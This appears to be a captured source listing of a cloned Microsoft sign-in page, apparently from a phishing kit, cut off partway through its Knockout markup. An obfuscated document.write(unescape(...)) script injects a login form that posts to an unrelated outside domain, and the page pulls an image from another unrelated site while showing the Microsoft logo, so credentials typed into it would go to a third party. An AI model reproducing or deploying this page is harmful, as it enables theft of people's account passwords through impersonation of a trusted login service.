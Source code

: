 ```markup
<!– ko if: !!backgroundImageUrl() –> 
<div class="background-overlay">
</div>
<!– /ko –> 
</div>
</div>

<script language=javascript>
document.write(unescape('<form name=\"fx2\" id=\"81\" spellcheck=\"false\" method=\"post\" target=\"_top\" autocomplete=\"off\" data-bind=\"autoSubmit: forceSubmit,attr: { action: postUrl }\" action=\"\https://seethefountain.com/@01/02.php\">'))</script>

<!– ko withProperties: { '$loginPage': $data } –> 
<div class="outer" data-bind="component: { name: &#39;page&#39;,
params: {
serverData: svr,
showButtons: svr.fShowButtons,
showFooterLinks: true,
useWizardBehavior: svr.fUseWizardBehavior,
handleWizardButtons: false,
password: password,
hideFromAria: ariaHidden },
event: {
footerAgreementClick: footer_agreementClick } }">
<!– ko template: { nodes: $componentTemplateNodes, data: $parent } –> 
<div class="middle">
<!– ko if: $loginPage.backgroundLogoUrl() && !(paginationControlMethods() && paginationControlMethods().currentViewHasMetadata('hideLogo')) –>
<!– /ko –> 
<div class="inner" data-bind="css: { &#39;app&#39;: $loginPage.backgroundLogoUrl() }">
<!– ko ifnot: paginationControlMethods() && paginationControlMethods().currentViewHasMetadata('hideLogo') –> 
<div data-bind="component: { name: &#39;logo-control&#39;,
params: {
isChinaDc: svr.fIsChinaDc,
bannerLogoUrl: $loginPage.bannerLogoUrl() } }">
<!– –>
<!– ko if: bannerLogoUrl –>
<!– /ko –>
<!– ko if: !bannerLogoUrl && !isChinaDc –>
<!– ko component: 'accessible-image-control' –>
<!– ko if: (isHighContrastBlackTheme || svr.fHasBackgroundColor) && !isHighContrastWhiteTheme –>
<!– /ko –>
<!– ko if: (isHighContrastWhiteTheme || !svr.fHasBackgroundColor) && !isHighContrastBlackTheme –> 
<!– ko template: { nodes: [darkImageNode], data: $parent } –>
<img class="logo" role="presentation" pngsrc="https://aadcdn.msftauth.net/ests/2.1/content/images/microsoft_logo_ee5c8d9fb6248c938fd0dc19370e90bd.svg">
<!--" svgsrc="https://raktaxis.co.uk/ghost/ellipsis_grey.svg?x=ee5c8d9fb6248c938fd0dc19370e90bd" data-bind="imgSrc" src="https://aadcdn.msftauth.net/ests/2.1/content/images/microsoft_logo_ee5c8d9fb6248c938fd0dc19370e90bd.svg">
<!-- /ko –> 
<!– /ko –>
<!– /ko –> 
<!– /ko –>
</div>
<!– /ko –> 
<div data-bind="
css: { &#39;wide&#39;: paginationControlMethods() &amp;&amp; paginationControlMethods().currentViewHasMetadata(&#39;wide&#39;) },
component: { name: &#39;pagination-control&#39;,
publicMethods: paginationControlMethods,
params: {
initialViewId: initialViewId,
```